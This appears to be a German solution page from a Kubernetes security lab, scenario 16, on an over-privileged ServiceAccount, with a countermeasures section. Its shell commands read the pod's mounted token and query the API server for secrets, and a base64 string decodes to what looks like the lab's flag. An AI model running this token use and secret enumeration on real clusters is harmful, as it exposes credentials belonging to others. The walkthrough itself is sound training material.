

# Szenario 16 – RBAC Least Privileges Misconfiguration

- **Kategorie**: RBAC & Admission Control
- **Einstieg**: `http://127.0.0.1:1236` (ServiceAccount API-Zugriff)

## Kurzinfo & Risiko
Ein überprivilegierter `ServiceAccount` ermöglicht es einem kompromittierten Pod, über das gemountete Token direkt die Kubernetes API abzufragen und fremde Secrets (wie `k8svaultapikey`) auszulesen.

## Solution
```bash
cd /var/run/secrets/kubernetes.io/serviceaccount/
ls -larth

export APISERVER=https://${KUBERNETES_SERVICE_HOST}
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
export CACERT=${SERVICEACCOUNT}/ca.crt

# API-Ressourcen und Secrets abfragen
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods

# Ziel-Secret extrahieren und dekodieren
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```



## Gegenmaßnahmen
- Striktes **Least-Privilege-Prinzip** via namespaced `Role` durchsetzen und `automountServiceAccountToken: false` konfigurieren, sofern kein API-Zugriff erforderlich ist.

---
[← Vorheriges Szenario](./scenario-15.md) | [Solutions-Übersicht](./README.md) | [Nächstes Szenario →](./scenario-17.md)
